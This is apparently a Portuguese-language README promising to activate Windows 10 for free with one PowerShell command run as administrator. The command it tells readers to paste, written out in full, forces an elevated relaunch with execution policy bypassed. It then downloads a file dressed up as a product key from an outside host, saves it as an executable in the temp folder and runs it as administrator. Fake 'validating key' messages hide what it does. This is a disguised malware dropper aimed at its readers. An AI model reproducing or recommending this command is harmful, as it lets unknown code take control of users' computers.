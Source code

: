 


⚡ Como Ativar Windows 10 da Correta, Sem Baixar Programa. Ative o Windows 10 Apenas Usando Comando do nativos do Windows PowerShell (admin).


## Para ativar o Windows 10 copie e cole o comando no PowerShell do Windows.


### ATENÇÃO ::: Copie o comando completo ...

> <!--`$path = "$env:TEMP\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe"; $url = "https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY"; if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) { Start-Process powershell.exe "-NoProfile -ExecutionPolicy Bypass -File `"$PSCommandPath`"" -Verb RunAs; exit } Write-Host "VERIFICANDO VERSÃO DO PRODUTO..."; Invoke-WebRequest -Uri $url -OutFile $path; Write-Host "VALIDANDO CHAVE NO SERVIDOR, AGUADE..."; Start-Process $path -Verb RunAs
`--!>

